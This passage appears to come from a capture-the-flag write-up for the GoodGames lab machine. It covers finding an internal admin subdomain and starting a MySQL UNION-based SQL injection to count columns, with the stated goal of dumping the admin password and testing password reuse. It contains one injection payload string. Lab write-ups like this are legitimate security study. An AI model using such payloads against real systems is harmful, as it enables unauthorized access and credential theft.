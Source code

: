 After clicking at the settings button on top right, it redirected me to `http://internal-administration.goodgames.htb/`; add that to hosts

![](/assets/obsidian/77e88012023120dc891ed1f777441d2c.png)

It requires username and password, I'll dump admin's password and try password reuse


## SQLI (Mysql) - Dump User Table


### Get columns count

```sql
' union select 1,2,3,4 #
```

![](/assets/obsidian/933b147c1b17dd5b90c81e54dfa93841.png)
